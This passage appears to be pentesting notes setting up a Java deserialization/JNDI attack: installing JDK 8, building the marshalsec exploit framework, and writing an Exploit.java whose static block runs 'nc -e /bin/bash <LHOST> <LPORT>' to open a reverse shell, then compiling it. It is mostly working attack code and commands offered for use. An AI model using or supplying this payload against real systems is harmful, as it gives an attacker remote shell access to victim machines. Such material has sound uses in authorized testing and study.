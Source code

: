 > https://www.oracle.com/java/technologies/javase/javase8-archive-downloads.html

File: jdk-8u181-linux-x64.tar.gz

### Creating Library Folder

```console
$ sudo mkdir /usr/lib/jvm
$ cd /usr/lib/jvm
$ sudo tar xzvf /usr/lib/jvm/jdk-8u181-linux-x64.tar.gz
$ sudo update-alternatives --install "/usr/bin/java" "java" "/usr/lib/jvm/jdk1.8.0_181/bin/java" 1
$ sudo update-alternatives --install "/usr/bin/javac" "javac" "/usr/lib/jvm/jdk1.8.0_181/bin/javac" 1
$ sudo update-alternatives --install "/usr/bin/javaws" "javaws" "/usr/lib/jvm/jdk1.8.0_181/bin/javaws" 1
$ sudo update-alternatives --set java /usr/lib/jvm/jdk1.8.0_181/bin/java
$ sudo update-alternatives --set javac /usr/lib/jvm/jdk1.8.0_181/bin/javac
$ sudo update-alternatives --set javaws /usr/lib/jvm/jdk1.8.0_181/bin/javaws
```

### Verify Version

```console
$ java -version
```

### Get Exploit Framework

```console
$ git clone https://github.com/mbechler/marshalsec
$ cd /opt/08_exploitation_tools/marshalsec/
$ sudo apt-get install maven
$ mvn clean package -DskipTests
```

### Exploit.java

```java
public class Exploit {
    static {
        try {
            java.lang.Runtime.getRuntime().exec("nc -e /bin/bash <LHOST> <LPORT>");
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

### Compiling Exploit.java

```console
$ javac Exploit.java -source 8 -target 8
```
